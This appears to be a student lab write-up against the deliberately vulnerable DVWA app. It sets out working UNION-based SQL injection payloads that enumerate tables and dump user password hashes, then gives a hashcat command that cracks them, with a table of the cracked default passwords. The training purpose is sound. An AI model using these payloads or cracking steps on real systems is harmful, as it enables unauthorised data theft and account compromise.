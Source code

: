 # 2. SQL Injection

## 2.1. Basic Injection

When we change the ID parameter of the URL, it does the same thing as when we use the input field, the submission is done and we have the result

## 2.2. Always true scenario

When we put the following command in the field : 

```
%' or 0=0 union select null, version() #
```

The query is executed and the following result is obtained:

<img title="version of the database" alt="version of the database" src="/src/2.2_new.png">

We conclude that the database version is 10.1.26 of MariaDB

## 2.3 Exercises

### 2.3.1. Print the database user

To be able to select the important information of the users, we follow the following steps: 

- Look at the names of the tables to identify the users

To see the tables, we used the following command

```
%' or 0=0 union select table_name, null from information_schema.tables #"
```

the following result is obtained:

<img title="tables of the database" alt="ables of the database" src="/src/2.3.1_0.png">

So the name of the users table is users.
There are other tables of course but we just stopped the capture at this level for readability reasons 

- Identify important columns

We used the following command to find the columns of the users table.

```
%' or 0=0 union select column_name, null from information_schema.columns where table_name = 'users' 
```

Here is the result

<img title="Columns of the users table" alt="Columns of the users table" src="/src/2.3.1_1.png">

We see on this picture all the columns (highlighted in yellow) of the table.

- Select user data on the fields we are interested in 

We have chosen to retrieve the following fields: user_id, user, first_name, last_name, last_login, password.

Here is the query used 

```
%' or 0=0 union select 'user_id|user|first_name|last_name|last_login|password)', concat(user_id,'|',user, '|', first_name, '|', last_name, '|', last_login, '|', password) from users #
```

And here is the result

<img title="Retrieve of columns" alt="Retrieve of columns" src="/src/2.3.1_2.png">

The value of the First Name field displayed is just to help us find the value of the Surname field

### 2.3.2. Print the database name

To find the name of the database, we used this query: 

```
%' or 0=0 union select null, database() #
```

This gives as an answer: 

<img title="Database name" alt="Database name" src="/src/2.3.2.png">

### 2.2.3. Print the name of all of the tables in the database

The query to do this is as follows: 

```
%' or 0=0 union select table_name, null from information_schema.tables #
```

We also used it in answer 1.

Below is the result

<img title="All tables name" alt="All tables name" src="/src/2.3.3.png">

### 2.2.4. Print the names of all of the columns in the users table

We have already done so in answer 2.2.2 and here is the query we used

```
%' or 0=0 union select column_name, null from information_schema.columns where table_name = 'users' # 
```

### 2.2.5. Now that we have the column names, print out the usernames and hashed passwords for each user !

We used this query to get the usernames and passwords of the users 

```
%' or 0=0 union select 'first_name|last_name|password)', concat(first_name, '|', last_name, "|", password) from users #
```

Result:

<img title="Usernames and passwords of the users" alt="Usernames and passwords of the users" src="/src/2.3.5.png">

the logic of the output is the same as the answer 2.2.2

# 3. Cracking hashed passwords with hashcat

To crack the passwords, we followed the following steps

### 3.1. Create a file with hashed passwords

We used the following echo command to create the file 

```
echo -e "5f4dcc3b5aa765d61d8327deb882cf99\ne99a18c428cb38d5f260853678922e03\n8d3533d75ae2c3966d7e0d4fcc69216b\n0d107d09f5bbe40cade3de5c71e9e9b7\n5f4dcc3b5aa765d61d8327deb882cf99" >> target_hashes.txt
```

Here is what it looks like when displayed

<img title="Display hashed file" alt="Display hashed file" src="/src/3.2.png">

### 3.2. Decompression of the rockyou word list

The decompression was performed with the following command

```
gunzip /usr/share/wordlists/rockyou.txt.gz
```

The result

<img title="Display wordlist" alt="Display wordlist" src="/src/3.0.png">

### 3.3. Password cracking with MD5

Here is the command used

```
hashcat -m 0 -a 0 -o cracked.txt target_hashes.txt /usr/share/wordlists/rockyou.txt
```

Here is what you get after cracking

<img title="Display cracked file" alt="Display cracked file" src="/src/3.4.png">

We notice that we had 5 hashes and we have 4 results, this is explained by the fact that there are two identical hashes, so the same password.

### 3.4. Real password

Here is the final result with the users and their passwords in clear

| Id | Username | First Name | Last Name | Real Password | Hased password
|---|---|---|---|---|---|
| 1 | admin | admin | admin | password | 5f4dcc3b5aa765d61d8327deb882cf99
| 2 | gordonb | Gordon | Brown | abc123 | e99a18c428cb38d5f260853678922e03
| 3 | 1337 | Hack | Me | charley | 8d3533d75ae2c3966d7e0d4fcc69216b
| 4 | pablo | Pablo | Picasso | letmein | 0d107d09f5bbe40cade3de5c71e9e9b7
| 5 | smithy | Bob | Smith | password | 5f4dcc3b5aa765d61d8327deb882cf99
